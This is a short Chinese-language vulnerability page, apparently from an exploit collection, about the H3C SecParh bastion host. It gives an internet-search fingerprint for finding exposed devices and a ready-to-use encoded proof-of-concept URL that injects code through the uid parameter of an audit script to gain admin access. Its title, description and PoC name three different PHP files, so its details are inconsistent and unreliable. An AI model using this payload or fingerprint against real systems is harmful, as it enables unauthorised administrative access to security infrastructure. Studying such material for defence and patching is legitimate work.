

# H3C SecParh堡垒机 data_provider.php 远程命令执行漏洞

## 漏洞描述

H3C SecParh堡垒机 get_detail_view.php 存在任意用户登录漏洞

与齐治堡垒机出现的漏洞相似

## 漏洞影响

<a-checkbox checked>H3C SecParh堡垒机</a-checkbox></br>

## 网络测绘

<a-checkbox checked>app="H3C-SecPath-运维审计系统" && body="2018"</a-checkbox></br>

## 漏洞复现

登录页面如下




POC验证的Url为

```plain
/audit/gui_detail_view.php?token=1&id=%5C&uid=%2Cchr(97))%20or%201:%20print%20chr(121)%2bchr(101)%2bchr(115)%0d%0a%23&login=admin
```


成功获取admin权限


## 